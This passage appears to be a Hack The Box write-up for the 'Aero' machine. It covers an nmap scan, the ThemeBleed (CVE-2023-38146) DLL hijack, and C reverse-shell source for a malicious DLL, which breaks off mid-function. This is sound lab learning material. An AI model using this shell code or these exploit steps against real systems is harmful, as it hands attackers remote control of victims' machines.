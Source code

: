 2024
### NMAP

```
sudo nmap -sC -sV -oN nmap-aero 10.10.11.237
```
### Enumerate for Initial Access

ThemeBleed (CVE-2023-38146) exploit for DLL hijacking


### Initial Access
#### DLL Hijacking - Create the malicious DLL
Creating a DLL that exports VerifyThemeVersion and then compiling from Linux

Ensure mingw-w64 is installed. Search for these packages using 
```
apt search mingw-w64
```

Create `main.c` file and paste `windows.c` [reverse shell code](https://github.com/izenynn/c-reverse-shell)

- Trim down some code
- Create the VerifyThemeVersion function
![[HackTheBox/Windows/attachments/Pasted image 20250523220153.png]]
```c
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

	WSADATA wsaData;
	if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
		write(2, "[ERROR] WSASturtup failed.\n", 27);
		return (1);
	}

	int port = CLIENT_PORT;
	struct sockaddr_in sa;
	SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}


	STARTUPINFO sinfo;
	memset(&sinfo, 0, sizeof(sinfo));
	sinfo.cb = sizeof(sinfo);
	sinfo.dwFlags = (STARTF_USESTDHANDLES);
	sinfo.hStdInput = (HANDLE)sockt;
	sinfo.hStdOutput = (HANDLE)sockt;
	sinfo.hStdError = (HANDLE)sockt;
```
